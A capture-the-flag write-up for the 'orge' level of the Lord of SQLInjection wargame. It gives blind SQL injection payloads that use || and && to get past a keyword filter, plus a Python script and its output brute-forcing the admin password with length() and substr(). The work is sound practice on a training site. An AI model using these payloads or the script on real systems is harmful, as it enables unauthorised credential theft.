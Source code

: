 ```yaml
---
custom_edit_url: null
sidebar_position: 7
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/b4a2f5ed-77f8-4b4a-aaae-220bf30b6964)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orge WHERE id='guest' AND pw='{$_GET[pw]}'
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the message `Hello {$result[id]}`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


It is similar to [orc](https://writeups-kunull.vercel.app/Lord%20of%20SQLInjection/orc) but this level also blocks the `OR` and `AND` characters. So we will have to use their alternatives `||` and `&&` respectively.

In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

## Blind SQL Injection

First we have to reveal the length of the flag.

### Retrieving the password length

If provide the following URI parameter:

```
?pw=' || id='admin' %26%26 length(pw)=[length] -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orge WHERE id='admin' AND pw='' || id='admin' && length(pw)=[lenght] -- -'
```

When the length of `pw` for `id='admin'` is equal to the `[length]` that we provide, the query will result into `True`. 
This will cause the `Hello admin` message to be printed. 
We can brute force the length and use the message as an indicator of correct brute force value.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![Pasted image 20240610125927](https://github.com/Kunull/Write-ups/assets/110326359/1f746f94-b19a-4867-8868-f8396aa3e375)

If we provide the following URI parameter:

```
?pw=' || id='admin' %26%26 substr(pw, [index], 1)='[character]' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orge WHERE id='admin' AND pw='' || id='admin' && substr(pw, [index], 1)='[character]' -- -'
```

If for `id='admin'`, the character of the `pw` at `[index]` is the same as the `[character]` that we provide, the query will result into `True`. 
This will cause the `Hello admin` message to be printed. 
We can brute force the password by changing the `[index]` and the `[character]`.

```
7b751aec
```

### Script

We can automate the entire process using a script.

```py title="orge_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'jkvees84mr4jq3nallg9rum7he'}
url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php"
password_length = 0

for x in range(0, 10):
  payload = f"' || id='admin' && length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' || id='admin' && substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\orge_script.py

[!] Payload: ?pw=' || id='admin' && length(pw)=8 -- -
[!] Payload (URL encoded): ?pw=%27+%7C%7C+id%3D%27admin%27+%26%26+length%28pw%29%3D8+--+-
[!] Password length: 8

[+] Payload: ?pw=' || id='admin' && substr(pw, 1, 1)='7' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id%3D%27admin%27+%26%26+substr%28pw%2C+1%2C+1%29%3D%277%27+--+-
[+] Character at index 1: 7

[+] Payload: ?pw=' || id='admin' && substr(pw, 2, 1)='b' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id%3D%27admin%27+%26%26+substr%28pw%2C+2%2C+1%29%3D%27b%27+--+-
[+] Character at index 2: b

[+] Payload: ?pw=' || id='admin' && substr(pw, 3, 1)='7' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id%3D%27admin%27+%26%26+substr%28pw%2C+3%2C+1%29%3D%277%27+--+-
[+] Character at index 3: 7

[+] Payload: ?pw=' || id='admin' && substr(pw, 4, 1)='5' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id%3D%27admin%27+%26%26+substr%28pw%2C+4%2C+1%29%3D%275%27+--+-
[+] Character at index 4: 5

[+] Payload: ?pw=' || id='admin' && substr(pw, 5, 1)='1' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id%3D%27admin%27+%26%26+substr%28pw%2C+5%2C+1%29%3D%271%27+--+-
[+] Character at index 5: 1

[+] Payload: ?pw=' || id='admin' && substr(pw, 6, 1)='a' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id%3D%27admin%27+%26%26+substr%28pw%2C+6%2C+1%29%3D%27a%27+--+-
[+] Character at index 6: a

[+] Payload: ?pw=' || id='admin' && substr(pw, 7, 1)='e' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id%3D%27admin%27+%26%26+substr%28pw%2C+7%2C+1%29%3D%27e%27+--+-
[+] Character at index 7: e

[+] Payload: ?pw=' || id='admin' && substr(pw, 8, 1)='c' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id%3D%27admin%27+%26%26+substr%28pw%2C+8%2C+1%29%3D%27c%27+--+-
[+] Character at index 8: c

[!] Extracted password: 7b751aec
[!] Final payload: ?pw=7b751aec
```

Now, we can provide password URI parameter:

```
?pw=7b751aec
```

The resultant query becomes:

```sql
SELECT id FROM prob_orge WHERE id='admin' AND pw='7b751aec'
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/601ce708-c7b6-4486-be1d-faad595f9c14)
